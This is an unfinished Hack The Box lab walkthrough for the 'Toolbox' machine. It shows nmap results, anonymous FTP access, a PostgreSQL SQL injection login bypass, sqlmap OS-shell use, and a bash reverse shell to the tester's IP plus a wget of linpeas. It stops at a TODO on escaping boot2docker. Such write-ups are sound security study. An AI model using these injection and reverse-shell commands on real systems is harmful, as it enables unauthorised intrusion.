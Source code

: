 # Hackthebox - Toolbox

- Windows

![toolbox](../.res/HTB-Toolbox.png)

- [Box on Hackthebox](https://app.hackthebox.com/machines/452)

## Nmap

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-03-12T00:02:14
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.07 seconds
```

- Let's add `admin.megalogistic.com` and `megalogistic.com` to our hosts file.

## FTP

- Anonymous FTP is allowed and we have on file on the target. Let's take it `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`

## Webserver

If we go to https://admin.megalogistic.com/ we have a login panel

![login panel](../.res/2023-03-11-19-19-38.png)

If we put a quote in the user field we can generate a sql error  

![sql error](../.res/2023-03-11-19-34-52.png)  

- It is using `pg_query` so it is postgres sql.
- Let's try to do the most common bypass authentication payload except we translate it in postgresql this does the trick `username='+or+1=1--&password=aaa`

![bypass login](../.res/2023-03-11-19-59-58.png)  

- In the browser it looks like this

![](../.res/2023-03-11-20-01-52.png)

If we google the "uplusion23" we find a github user https://github.com/uplusion23. if we have a look at his github page https://uplusion23.github.io/ we find his portfolio and then we can have a look at the admin panel on CodePen [here](https://codepen.io/uplusion23/pen/yzBbXj)

- We have a todo list and a list of users

![todo list](../.res/2023-03-11-20-11-58.png)  

## subdomain

![nslookup](../.res/2023-03-11-20-53-34.png)

![](../.res/2023-03-11-20-55-49.png)

## Shell as postgresql

If we use sqlmap we can get a shell on the target `sqlmap -r request -p username --os-shell`  
To get the request file we just need to right click in the burp request and select save item  

![save item](../.res/2023-03-18-20-37-08.png)
Here is the shell we get  
![os-shell](../.res/2023-03-18-20-38-37.png)
If we ls on hone we have a user named tony.  
When looking around a little we find the user flag `/var/lib/postgresql/user.txt`

- We also find an .ssh folder with a known_hosts file
- We can try to add our pu
- Something weird is that if we cat /etc/passwd we do not find the user tony we found in /home. However the folder tony belongs to root so our root user might be named tony
- Also this seems to be a docker instance.
- Let's get a reverse shell we set a listener `rlwrap nc -nlvp 1234` this way we will get a more verbose shell in case of errors
- then we launch this from our previous prompt `bash -c 'bash -i >& /dev/tcp/10.10.14.11/1234 0>&1'`
wget http://10.10.14.11/linpeas_linux_amd64
- uname -a gives `command standard output: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux'` so we loopback to this boot2docker

## TODO

- See how to escape boot2docker